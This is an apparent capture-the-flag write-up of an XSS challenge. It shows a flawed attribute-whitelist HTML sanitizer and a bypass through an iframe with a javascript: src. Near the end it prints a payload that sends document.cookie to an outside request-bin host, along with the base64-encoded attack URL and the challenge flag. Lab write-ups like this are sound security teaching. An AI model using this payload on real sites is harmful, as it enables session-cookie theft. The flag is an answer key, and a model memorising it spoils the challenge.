# static-static-hosting
This is another XSS challenge where we tackel with another filter
## the filter
Under the network activities, we can find the filter.
```js
function clean(input) {
    const template = document.createElement('template');
    const html = document.createElement('html');
    template.content.appendChild(html);
    html.innerHTML = input;

    sanitize(html);

    const result = html.innerHTML;
    return result;
}

function sanitize(element) {
    const attributes = element.getAttributeNames();
    for (let i = 0; i < attributes.length; i++) {
        // Let people add images and styles
        if (!['src', 'width', 'height', 'alt', 'class'].includes(attributes[i])) {
            element.removeAttribute(attributes[i]);
        }
    }

    const children = element.children;
    for (let i = 0; i < children.length; i++) {
        if (children[i].nodeName === 'SCRIPT') {
            element.removeChild(children[i]);
            i --;
        } else {
            sanitize(children[i]);
        }
    }
}
```
Basically, this means that we could only use `['src', 'width', 'height', 'alt', 'class']` as our attributes in tags. This still gives us a lot of room to work with.
## Embed and Iframe
I thought about the `<embed>` and `<iframe>` tags as their `src` attribut could triger javascript.
However, when I tried, `<embed>` worked for me on my local computer but not the bot as I am running firefox and the bot is running chrome. But `<iframe>` wored for both.
## iframe
```html
<iframe src="javascript:alert(1)"></iframe>
```
And it worked! So the next step is to do the post-bin move and grab the `document.cookie`
## Payload
I encoded my payload into base64 and fed it to the bot. Moments later, I got the flag.
```html
<iframe src="javascript:window.location.assign(`https://postb.in/1593716639876-9019670642446?cookie=${document.cookie}`)"></iframe>
```
```
https://static-static-hosting.2020.redpwnc.tf/site/#PGlmcmFtZSBzcmM9ImphdmFzY3JpcHQ6d2luZG93LmxvY2F0aW9uLmFzc2lnbihgaHR0cHM6Ly9wb3N0Yi5pbi8xNTkzNzE2NjM5ODc2LTkwMTk2NzA2NDI0NDY/Y29va2llPSR7ZG9jdW1lbnQuY29va2llfWApIj48L2lmcmFtZT4=
```
```
flag{wh0_n33d5_d0mpur1fy}
```


